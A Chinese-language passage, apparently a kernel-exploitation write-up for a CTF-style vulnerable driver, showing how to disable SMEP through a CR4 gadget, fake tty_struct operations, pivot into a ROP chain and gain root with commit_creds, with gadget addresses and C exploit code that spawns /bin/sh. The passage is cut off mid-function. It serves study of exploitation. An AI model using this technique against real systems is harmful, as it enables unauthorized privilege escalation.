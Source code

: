 那么就需要先绕过这个限制，就是利用内核中的代码先去关闭`smep`，先从`vmlinux`中找个`gadget`
> 因为系统会根据`cr4`寄存器的第20位判断是否开启了`smep`，需要刷成`0`，这需要预先获取到`cr4`寄存器中的值

```
0xffffffff8101fb0d : mov cr4, rdi ; ret
```
通过`int fd_tty = open("/dev/ptmx", O_RDWR|O_NOCTTY);`的方式可以打开一个`tty`设备，其对应的操作集就是`tty_struct->fileoperations`，再去看的话也只有一个`int  (*write)(struct tty_struct * tty, const unsigned char *buf, int count);`值得利用，那么自然就是将这个`operation`修改成`恶意代码`然后再通过写入`tty`来触发，首先就是把原本的`tty_struct`给完整的复制过来再将其替换掉。
```
unsigned long fuck_tty_struct[3] = {0};
int fd_tty = open("/dev/ptmx", O_RDWR|O_NOCTTY);
read(fd2, fuck_tty_struct, 32);
printf("operations = %lx", fuck_tty_struct[3]); //fuck_tty_struct[3]就是原本的operations位
```
那如果没有`smep`的限制，完全就可以直接把`write`替换成一个提权shell的恶意代码就搞定了，但是正因为有`smep`因此需要在触发代码前先通过`ROP`来修改标志位关闭`smep`，首先通过`crash`确定一下在`tty_operations`中的`write`的位置是`operations[7]`，接着将这一位上的地址修改成驱动中的`read`函数然后通过`gdb`查看一下调用栈和寄存器情况为后续利用作准备。
> 这个根据不同的内核版本会有不同的实现，因此不能直接套用

```
   0xffffffff814cb702 <+424>:    mov    rax,QWORD PTR [r12+0x18]
   0xffffffff814cb707 <+429>:    mov    rax,QWORD PTR [rax+0x38]
   0xffffffff814cb70b <+433>:    mov    edx,ebx
   0xffffffff814cb70d <+435>:    mov    rsi,rbp
   0xffffffff814cb710 <+438>:    mov    rdi,r12
   0xffffffff814cb713 <+441>:    call   0xffffffff81c03000 <__x86_indirect_thunk_rax>
   0xffffffff814cb718 <+446>:    mov    r13d,eax
```
`[r12+0x18]`存的就是`operations`的地址，而`[rax+0x38]`则是`op->write`的地址，而`call   0xffffffff81c03000 <__x86_indirect_thunk_rax>`则相当于直接去`call rax`，而可以控制的地方就是`operations`的地址，而在`call`之前看一下参数赋值可以看到`mov    rdi,r12`，这说明`r12`实际存的是`filp`的地址，也就是`fd`指向的`file`。因此`rop`构造在`operations`中，然后通过修改`rsp`到`operations`的地址然后`ret`引导执行`rop`的代码，不过由于`operations`的大小不够大，因此可以再做一次迁移将执行完全引导到一个`rop`区域中。
> 这儿有个需要注意的点，就是`operations`的地址是用户态地址，然而如果是开启了`smap`的话，这样使用会直接导致内核的panic，因此在使用`tty_struct`的伪造方式提权前需要确定`/proc/cpuinfo`中是否开启了`smap`，如果开启的话就需要在内核的`堆/栈`上构造数据去关闭`smap/smep`。

那这样利用思路就很清晰了：
1. 修改`tty_operations`到用户态的地址
2. 修改`tty_operations`内容，构造`rop`修改`cr4`
3. 通过`rop`跳转执行`用户态函数`
4. 利用`prepare_kernel_cred_addr`和`commit_creds_addr`完成提权

一个通用的`ROP`，但是触发的前提条件就是让`rsp`迁移到`rop[32]`上，最典型的就是`mov rsp, [ROP起始地址]; ret`
```
#define prepare_kernel_cred_addr 0xffffffff810bd944
#define commit_creds_addr 0xffffffff810bd56a

size_t user_cs, user_ss, user_rflags, user_sp;
void save_status()
{
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
    puts("[*]status has been saved.");
}

void get_shell()
{
    system("/bin/sh");
}

void get_root()
{
    char* (*pkc)(int) = prepare_kernel_cred_addr;
```